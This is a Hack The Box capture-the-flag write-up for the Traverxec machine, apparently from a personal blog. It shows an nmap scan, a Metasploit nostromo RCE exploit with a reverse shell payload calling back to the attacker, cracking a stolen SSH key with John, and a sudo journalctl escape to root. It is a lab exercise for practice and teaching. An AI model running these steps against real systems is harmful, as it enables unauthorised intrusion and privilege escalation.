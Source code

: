 ```yaml
---
date: 2020-04-23
title: "Hack The Box ~ Traverxec"
published: true
---
```

<br>
<center>
<img src='assets/traverxec/traverxec.jpg'>
</center>

Today we will be doing Traverxec from Hack the Box. The box was rated easy and good for beginners to practice pentesting skills. The box had an IP address of 10.10.10.165. For the initial foothold we had to exploit a webserver that was vulnerable to remote code execution and get a reverse shell back in our machine. For root the user David had privilege to execute journalctl as root we leveraged that to get root in the box. With that said let’s jump in.<br><br>

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```
m1m3@kali:~/Documents/htb/traverxec$ nmap -sC -sV -oA nmap/traverxec 10.10.10.165
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-25 04:02 IST
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

We see that the port 80 is open an it is running `nostromo 1.9.6`. Looking at the port 80, we have a static website with nothing useful.

<br><br>

## Initial Foothold:
Now lets look on searchsploit if we have a vulnerable version of nostromo

```
m1m3@kali:~/Documents/htb/traverxec$ searchsploit nostromo
--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution  | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                   | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Comma | exploits/linux/remote/35466.sh
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have RCE available. Lets use the metasploit for it.

```
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.115:4444 -> 10.10.10.165:49476) at 2020-03-25 04:18:35 +0530
```


We get a TCP reverse shell which we can turn into a pty shell using:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

If we type `id` we get the user of the shell:

```
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
<br><br>

## User Shell:

With some enumeration we can find the nostromo config file at `/var/nostromo/conf` which reveals a http password file
for protecting the www directory from david’s home.

```
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# HOMEDIRS [OPTIONAL]

homedirs          /home
homedirs_public   public_www
```

Based on the config file, I am guessing that david is going to have a sub directory named public_www, so let’s see if we can get a directory listing of /home/david/public_www

```
www-data​ @traverxec​ :/var/nostromo/htdocs​ $ ​ ls /home/david/public_www -lah
ls /home/david/public_www -lah
total ​ 16​ K
drwxr-xr-x ​ 3 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 15​ : ​ 45​ .
drwx--x--x ​ 5 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ ..
-rw-r--r-- ​ 1 ​ david david ​ 402​   Oct ​ 25​ ​ 15​ : ​ 45​ index.html
drwxr-xr-x ​ 2 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ protected-file-area
```

After looking inside the `protected-file-area` we a get a file `backup-ssh-identity-files.tgz`. After copying it to my machine, I found the private ssh key for David. We can now use john to crack the key and ssh into the box.

```
m1m3@kali:~/Documents/htb/traverxec$ /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
m1m3@kali:~/Documents/htb/traverxec$ john id_rsa.txt

Press 'q' ​ or​ Ctrl-C ​ to​ abort, almost any other key for status
hunter      (david)
Session completed
```

Hurray! We found the key for David. Now lets ssh into the box and grab the user flag.

```
m1m3@kali:~/Documents/htb/traverxec$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)

david@traverxec:~$ wc -c user.txt
33 user.txt
```
<br><br>

## Root Shell:

The first thing I noticed when I got the user when doing privilege escalation is there is a bin directory inside David’s home directory it has a file called server-stats.sh. 

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Last line of the script tells us that david can run `/usr/bin/journalctl` with sudo. So I went to [GTFO bin’s](https://gtfobins.github.io/gtfobins/journalctl/) and exploited the less prompt that opens up as sudo using this `!/bin/bash`.

```
david@traverxec:/dev/shm$ ./server-stats.sh
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 root.txt
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Hack The Box writeups!